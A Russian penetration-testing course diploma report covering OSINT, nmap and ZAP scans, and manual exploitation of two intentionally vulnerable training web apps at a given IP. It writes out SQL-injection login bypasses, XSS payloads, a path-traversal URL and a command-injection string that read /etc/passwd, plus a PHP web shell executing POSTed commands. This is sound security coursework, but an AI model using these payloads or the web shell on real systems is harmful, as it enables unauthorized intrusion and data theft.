



# Дипломная работа

## Track Penetration Testing (Исследование защищённости информационной системы методом чёрного ящика)

---

## Информация, вводные данные:

Предоставлен IP тестируемого приложения (сервиса) - **92.51.39.106**

Необходимо протестировать приложение на безопасность – провести полноценное тестирование на проникновение методом черного ящика.

Тестирование необходимо провести в рамках пентеста приложения, с использованием open source инструментов, рассмотренных в курсе.

## Этап 1. OSINT

Для поиска информации о предоставленном IP адресе были использованы:

* [Shodan.io](https://www.shodan.io/) - поисковая система, позволяющая пользователям искать различные типы серверов (веб-камеры, маршрутизаторы, серверы и так далее), подключённых к сети Интернет, с использованием различных фильтров.
* [Criminalip.io](https://www.criminalip.io/) - это поисковая система интеллекта в области киберугроз (CTI), предназначенная для выявления потенциальных уязвимостей, которые угрожают ИТ-активам компаний или отдельных лиц и предлагают новый способ управления ими всесторонне, позволяя пользователям находить результаты для вредоносного IP-адреса, доменов, уязвимостей, баннеров и другой информации, связанной с безопасностью.
* [Google.com](https://google.com) - поисковая система интернета. Нас интересует использование Google Dorking.

### 1.1. Результат сбора информации с помощью Shodan.io

Веб-отчет Shodan.io находится здесь - [https://www.shodan.io/host/92.51.39.106](https://www.shodan.io/host/92.51.39.106)

В результате сканирования получена следующая информация:

| # | Параметры        | Результат              |
|---|------------------|------------------------|
| 1 | Hostnames        | 1427771-cg36175.tw1.ru |
| 2 | Domains          | tw1.ru                 |
| 3 | Country          | Russian Federation     |
| 4 | City             | Saint Petersburg       |
| 5 | Organization     | TimeWeb Ltd.           |
| 6 | ISP              | TimeWeb Ltd.           |
| 7 | ASN              | AS9123                 |
| 8 | Operating System | Linux                  |

Найдены открытые порты:

* 22 (TCP) - OpenSSH8.2p1 Ubuntu 4ubuntu0.13
* 7788 (TCP) - Server: TornadoServer/5.1.1
* 8050 (TCP) - Server: Apache/2.4.7 (Ubuntu)

Скриншоты интересующих нас данных:


### 1.2. Результат сбора информации с помощью Criminalip.io

Веб отчет Criminalip.io находится здесь - [https://www.criminalip.io/asset/report/92.51.39.106](https://www.criminalip.io/asset/report/92.51.39.106)

В результате сканирования получена следующая информация:

| # | Параметры         | Результат          |
|---|-------------------|--------------------|
| 1 | ASN               | 9123               |
| 2 | AS Name           | TimeWeb Ltd.       |
| 3 | Organization Name | TimeWeb            |
| 4 | Country Code      | RU                 |
| 5 | Country           | Russian Federation |
| 6 | Region            | St.-Petersburg     |
| 7 | City              | St Petersburg      |
| 8 | Postal Code       | 195213             |

Найдены открытые порты:

* 22 (TCP) - SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.13

Более открытых портов Criminalip.io не показал, что странно, так выглядит текущий отчет:


### 1.3. Результат сбора информации с помощью Google Dorking

* ввод в поле поиска `site:92.51.39.106` выдает информацию:

    

* ввод в поле поиска `inurl:admin site:92.51.39.106` выдает:

    

* ввод в поле поиска `filetype:log OR filetype:txt site:92.51.39.106` не выдает результатов:

  

По результату Google Dorking:

* Скрытые страницы не найдены.
* Конфиденциальные файлы не обнаружены.

### 1.4. Анализ собранной информации

На основе полученной информации, определяем цели для атаки:

* [http://92.51.39.106:8050/](http://92.51.39.106:8050/) - NetologyVulnApp.com, в качестве веб-сервера используется Apache/2.4.7
* [http://92.51.39.106:7788/](http://92.51.39.106:7788/) - Beemers, в качестве веб-сервера используется TornadoServer/5.1.1

Также выявлено использование устаревшей версии PHP 5.5.9 на сервере. На сайте `cvedetails.com` [найдено большое количество](https://www.cvedetails.com/version/1334460/PHP-PHP-5.5.9.html)
уязвимостей данной версии:


Версия TornadoServer 5.1.1 также является устаревшей и имеет ряд уязвимостей, о которых есть информация на сайте `cvedetails.com`:


И так, когда у нас выявлены уязвимые сервисы, работающие на определенных портах, можно переходить к следующему этапу - сканированию.

## Этап 2. Scanning

### 2.1. Сканирование NMAP

Сканирование начну с утилиты nmap.

У меня имеется заранее подготовленная виртуальная машина Kali Linux, выполняю команду в терминале `nmap -sV -O -A 92.51.39.106`:


Также повторно сохранил результат в [файл nmap_report.txt](assets/2-scanning/reports/nmap/nmap_report.txt)

Результат:

* Открыт порт 22 - OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
* Операционная система - Linux 5.0 - 5.14

Также дополнительно выполнил команду `nmap -sV --script vulners 92.51.39.106 > /home/kali/Desktop/Diploma/nmap_vulners_report.txt`
с сохранением отчета в [файл nmap_vulners_report.txt](assets/2-scanning/reports/nmap/nmap_vulners_report.txt)

### 2.2. Сканирование ZAP Docker

В виртуальной машине Kali установил необходимый образ в соответствии с [инструкцией](https://www.zaproxy.org/docs/docker/about/) с официального сайта
командой `docker pull ghcr.io/zaproxy/zaproxy:stable`:


Поочередно буду сканировать адрес 92.51.39.106 по портам 8050 и 7788.

#### 2.2.1. Сканирование адреса `http://92.51.39.106:8050`:

Запускаю сканирование по порту 8050 командой `docker run -v $(pwd):/zap/wrk/:rw -t ghcr.io/zaproxy/zaproxy:stable zap-full-scan.py \
    -t http://92.51.39.106:8050 -g gen.conf -r Report_8050.html`

По результату сканирования получен [отчет](assets/2-scanning/reports/zap-docker/Report_8050.html).

Суммарный отчет по результату сканирования:


Полученные High Priority Alerts только в части Cross Site Scripting (DOM Based).

#### 2.2.2. Сканирование адреса `http://92.51.39.106:7788`:

Запускаю сканирование по порту 7788 командой `docker run -v $(pwd):/zap/wrk/:rw -t ghcr.io/zaproxy/zaproxy:stable zap-full-scan.py \
    -t http://92.51.39.106:7788 -g gen.conf -r Report_7788.html`

По результату сканирования получен [отчет](assets/2-scanning/reports/zap-docker/Report_7788.html).

Суммарный отчет по результату сканирования:


Перечислим полученные High Priority Alerts:

* Cross Site Scripting (DOM Based)
* Cross Site Scripting (Reflected)
* Path Traversal
* Remote OS Command Injection
* SQL Injection

### 2.3. Сканирование ZAP с графической оболочкой

Ранее я уже установил ZAP на виртуальную машину Kali Linux.

#### 2.3.1 Сканирование адреса `http://92.51.39.106:7788`:



По результату сканирования получен [отчет](assets/2-scanning/reports/zap/2025-07-25-ZAP-Report-7788.html).

Перечислим полученные High Priority Alerts:

* Cross Site Scripting (DOM Based)
* Cross Site Scripting (Reflected)
* Path Traversal
* Remote OS Command Injection
* SQL Injection

Скриншот окна ZAP после завершения сканирования `92.51.39.106:7788`:


#### 2.3.2 Сканирование адреса `http://92.51.39.106:8050`:


По результату сканирования получен [отчет](assets/2-scanning/reports/zap/2025-07-27-ZAP-Report-8050.html)

Перечислим полученные High Priority Alerts:

* Cross Site Scripting (DOM Based)
* Path Traversal

Скриншот окна ZAP после завершения сканирования `92.51.39.106:8050`:


### 2.4. Аналитика полученных данных

В результате сканирования ip `92.51.39.106` по портам `8050` и `7788` с помощью ZAP и Zap + Docker, складывается следующая картина:

#### 2.4.1. http://92.51.39.106:7788

Имеет уязвимости критического уровня:

* Cross Site Scripting (DOM Based)
* Cross Site Scripting (Reflected)
* Path Traversal
* Remote OS Command Injection
* SQL Injection

#### 2.4.2. http://92.51.39.106:8050

Имеет уязвимости критического уровня:

* Cross Site Scripting (DOM Based)
* Path Traversal

Итак, полученных данных более чем достаточно, чтобы перейти к следующему этапу и провести дополнительное тестирование в ручном режиме.

## Этап 3. Testing

Тестирование будет проводиться на основе предоставленных данных на этапе сканирования.
Часть тестов уже было проведено автоматически с помощью ZAP, с предоставлением описания и эксплуатации.
Некоторые тесты уязвимостей будут проведены вручную с последующим предоставлением доказательств эксплуатации.

### 3.1. Тестирование http://92.51.39.106:8050

#### 3.1.1. SQL Injections

SQL Injections - один из распространённых способов взлома сайтов и программ, работающих с базами данных, основанный на внедрении в запрос произвольного SQL-кода.

Расчитаем оценку CVSS v3 (БДУ ФСТЭК РФ) на сайте https://bdu.fstec.ru/calc3 для SQL Injections


Получаем:

* Вектор CVSS v3: (AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H)
* Базовая оценка (BS): 9.6

В нашем случае SQL Injections влияет на авторизацию. Злоумышленник может обойти систему авторизации и получить доступ в ЛК пользователя.

Для этого переходим по адресу `http://92.51.39.106:8050/users/login.php`, в поле `Username` вводим `admin' or '1'='1'#`, а в поле `Password` любые символы, я ввел `111`:


И видим что авторизация прошла успешно:


#### 3.1.2. Cross Site Scripting (DOM Based)

По адресу `http://92.51.39.106:8050/guestbook.php` располагается форма отправки комментария.
Злоумышленник может ввести вредоносный код JavaScript в поле комментария, который затем будет добавлен на страницу и выполнен в контексте DOM.

Перейдем по этому адресу, и введем в поле комментария код `<script>alert('Cross Site Scripting (DOM Based)')</script>">`:


И отправим комментарий. Видим что атака удалась:


#### 3.1.3. Cross Site Scripting (Reflected)

На сайте есть форма поиска. Злоумышленник может ей воспользоваться для запуска вредоносного Javascript кода.

Для этого введем в строку поиска код - `<a href="http://92.51.39.106:8050/" onclick="alert('Cross Site Scripting (Reflected) example!'); return false;">Ссылка на сайт NetologyVulnApp</a>`
и нажмем кнопку `Search`:


Как видим, появилась ссылка. Кликнем на нее, и получим сообщение в браузере:


#### 3.1.4. Cross Site Scripting (Persistent)

На сайте имеется форма отправки комментариев при просмотре фото, например по адресу `http://92.51.39.106:8050/pictures/view.php?picid=15`.
Злоумышленник может ей воспользоваться для запуска вредоносного Javascript кода.

Для этого введем в форму отправки комментария код `<script>alert('Это вредоносный XSS!');</script>`:


Сохраним комментарий, и как видим код выполняется (не нужно было использовать русский текст, но не суть):


Расчитаем оценку CVSS V3 (БДУ ФСТЭК РФ) для Cross Site Scripting (в целом для п. 3.1.2, 3.1.3 и 3.1.4):



Получаем:

* Вектор CVSS v3: (AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:H)
* Базовая оценка (BS): 8.8

#### 3.1.5. Source Code Disclosure - File Inclusion

File Inclusion - уязвимость включения файлов нарушает способ загрузки кода приложением для выполнения.
Успешная эксплуатация уязвимости включения файлов приведет к удаленному выполнению кода на веб-сервере,
на котором работает уязвимое веб-приложение. Злоумышленник может использовать удаленное выполнение кода для создания
веб-шелла на веб-сервере, который может быть использован для порчи веб-сайта.

Рассчитаем оценку CVSS V3 (БДУ ФСТЭК РФ) для Source Code Disclosure - File Inclusion:


* Вектор CVSS v3: (AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:H)
* Базовая оценка (BS): 8.8

Поскольку на сайте имеется форма загрузки файлов, попробуем загрузить PHP-файл и выполнить его. Ранее на 1 этапе мы обнаружили,
что на сервере используется устаревшая версия PHP 5.5.9.

Для этого создадим файл [command.php](assets/3-testing/php/command.php) следующего содержания:

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $command = $_POST['cmd'];
    $output = shell_exec($command);
    echo "<pre>$output</pre>";
}
?>
<form method="post">
    Command: <input type="text" name="cmd">
    <input type="submit" value="Run command!">
</form>
```
И загрузим данный файл на сервер через форму загрузки файлов, расположенной по адресу `http://92.51.39.106:8050/pictures/upload.php`:


Файл загружен. Теперь перейдем по адресу `http://92.51.39.106:8050/upload/PHP/` и видим наш загруженный файл:


Кликаем на него, и код файла выполнился, видим форму для ввода команды:


Вводим команду `cat /etc/passwd` и видим что она выполнилась:


### 3.2. Тестирование http://92.51.39.106:7788

#### 3.2.1. SQL Injections

SQL Injections - один из распространённых способов взлома сайтов и программ, работающих с базами данных, основанный на внедрении в запрос произвольного SQL-кода.

В предыдущем тестировании п.3.1.1 мы рассчитывали оценку CVSS v3 (БДУ ФСТЭК РФ) для SQL Injections:


Получаем:

* Вектор CVSS v3: (AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H)
* Базовая оценка (BS): 9.6

В нашем случае SQL Injections влияет на авторизацию. Злоумышленник может обойти систему авторизации и получить доступ в ЛК пользователя.

Для этого перейдем на страницу `http://92.51.39.106:7788/login.html` и в поле Username введем `admin' or '1'='1--`, а в поле
Password - любые символы, я ввел `111`:


Как видим, авторизация прошла успешно:


#### 3.2.2. Cross Site Scripting (DOM Based)

Данная уязвимость была автоматически найдена при сканировании ZAP, [отчете](assets/2-scanning/reports/zap/2025-07-25-ZAP-Report-7788.html)
сформирована ссылка [http://92.51.39.106:7788/search?q=%3Cscript%3Ealert(5397)%3C/script%3E](http://92.51.39.106:7788/search?q=%3Cscript%3Ealert(5397)%3C/script%3E),
перейдя по которой мы увидим вредоносное сообщение:


#### 3.2.3. Cross Site Scripting (Reflected)

На сайте есть форма поиска. Злоумышленник может ей воспользоваться для запуска вредоносного Javascript кода.

Для этого введем в строку поиска код - `<a href="http://92.51.39.106:7788/" onclick="alert('Cross Site Scripting (Reflected) example!'); return false;">Ссылка на сайт Beemers</a>`
и нажмем иконку поиска или клавишу Enter на клавиатуре:


Как видим, появилась ссылка. Кликнем на нее, и получим сообщение в браузере:


В предыдущем тестировании п.3.1 мы рассчитывали оценку CVSS V3 (БДУ ФСТЭК РФ) для Cross Site Scripting:


Получаем:

* Вектор CVSS v3: (AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:H)
* Базовая оценка (BS): 8.8

#### 3.2.4. Path Traversal

Path Traversal (Path Traversal Attack) - это тип атаки на безопасность веб-приложений, при которой злоумышленник пытается
получить несанкционированный доступ к файловой системе сервера, обходя ограничения доступа и перемещаясь по файловой структуре.
Целью атаки является обычно доступ к файлам или директориям, к которым злоумышленник не имеет прав доступа.

Принцип работы Path Traversal заключается в использовании недостаточно проверенного или неэкранированного пользовательского
ввода (обычно через URL или другие формы ввода), чтобы перейти за пределы корневого каталога веб-приложения и получить
доступ к файлам или директориям на сервере.

Рассчитаем оценку CVSS V3 (БДУ ФСТЭК РФ) для Path Traversal:



Получаем:

* Вектор CVSS v3: (AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N)
* Базовая оценка (BS): 5.3

Данная уязвимость была найдена и протестирована автоматически при сканировании ZAP, в результате была получена ссылка на чтение
файла `/etc/passwd` - [http://92.51.39.106:7788/read?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd](http://92.51.39.106:7788/read?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd)

Пройдя по ссылке, мы увидим содержимое файла `/etc/passwd` на сервере:


#### 3.2.5. Remote OS Command Injection

Remote OS Command Injection - это тип атаки на безопасность веб-приложений, при которой злоумышленник вводит и выполняет
команды на удаленном сервере через уязвимость в веб-приложении, что может привести к компрометации безопасности, утечке
конфиденциальной информации и нежелательным действиям на сервере.

Принцип работы Remote OS Command Injection заключается в следующем: злоумышленник вводит вредоносные команды в уязвимую
форму ввода (например, текстовое поле для поиска, комментария и т.п.), которые затем выполняются на сервере. Обычно атаки
этого типа происходят, когда веб-приложение не выполняет должной проверки и фильтрации пользовательского ввода,
позволяя вводить и выполнить произвольные команды.

Рассчитаем оценку CVSS V3 (БДУ ФСТЭК РФ) для Remote OS Command Injection:


Получаем:

* Вектор CVSS v3: (AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H)
* Базовая оценка (BS): 9.6

Уязвимость была протестирована автоматически во время сканирования ZAP.
Для эксплуатации необходимо перейти по ссылке [http://92.51.39.106:7788/server.html](http://92.51.39.106:7788/server.html),
и в поле ввода данных ввести - `&cat /etc/passwd&`:


Нажимаем кнопку Check, и получаем содержимое файла `/etc/passwd`:


Итак, мы собрали достаточное количество уязвимостей с доказательствами в автоматическом и ручном режиме, и можно переходить к следующему этапу - 
созданию отчета о проведении анализа защищенности ресурса **92.51.39.106**.

## Этап 4. Отчет о проведении анализа защищенности ресурса 92.51.39.106.
